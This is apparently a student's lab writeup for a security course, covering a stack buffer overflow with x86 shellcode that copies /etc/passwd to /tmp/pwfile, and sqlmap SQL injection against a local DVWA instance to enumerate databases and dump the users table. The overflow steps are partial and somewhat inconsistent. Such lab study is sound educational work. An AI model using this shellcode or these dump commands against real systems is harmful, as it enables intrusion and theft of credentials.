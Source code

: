 # Lab #1,22110070, Dinh To Quoc Thang, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

a) Compile asm program and C program to executable code. 
-C program:
``` 
    seed@6f32731f3ee3:~/seclabs/bof$ gcc -g vuln1.c -o vuln1.out -fno-stack-protector
```
-asm program:
```
seed@6f32731f3ee3:~/seclabs/bof$ nasm -f elf32 -o shellcode.o shellcode.asm
seed@6f32731f3ee3:~/seclabs/bof$ ld -o shellcode shellcode.o
```

b) Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

-Need to find the exact number of bytes to overwrite the return address, that is 20 bytes.
```
r $(python -c "print('A' * 32)")
```
-When the program crashes, use info registers esp to see the address of ESP (stack pointer), this is where the shellcode will be located.
```
info registers esp
```
![alt text](./Image/image1)

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
a) I find about the vulnerability of the SQL injection page in DVWA
-When submit id=1 it show this URL:
```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#
```
-I change "id=1" to "id=1'" and I got an SQL related error message, which could indicate that the site might be vulnerable to SQL injection.:
```
http://localhost/vulnerabilities/sqli/?id=1'&Submit=Submit#
```
![alt text](./Image/image2)

b)Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" --dbs
```
![alt text](./Image/image3)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
a) Use sqlmap to get tables:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa --tables
```
-This is table of dvwa:
![alt text](./Image/image4)

b) Use sqlmap to get users informations:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa -T users --dump
```

-This is users informations:
![alt text](./Image/image5)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
